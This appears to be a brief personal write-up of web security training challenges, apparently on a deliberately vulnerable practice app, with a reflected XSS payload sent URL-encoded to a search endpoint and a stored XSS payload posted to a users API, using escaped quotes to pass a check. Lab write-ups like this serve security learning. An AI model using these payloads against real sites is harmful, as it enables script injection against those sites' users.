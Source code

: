 ### xss reflected
1. GET rest/api/search/ use URL encode for payload
%3Ciframe%20src%3D%22javascript%3Aalert(%60xss%60)%22%3E

### xxx persist
2. POST /api/Users/ use \ to cover params payload pass check.
<iframe src=\"javascript:alert(`xss2`)\">


### TODO: Perform a persisted XSS attack without using the frontend application at all
Using Burp to perform parameter failure. caused by api/call changed to /rest
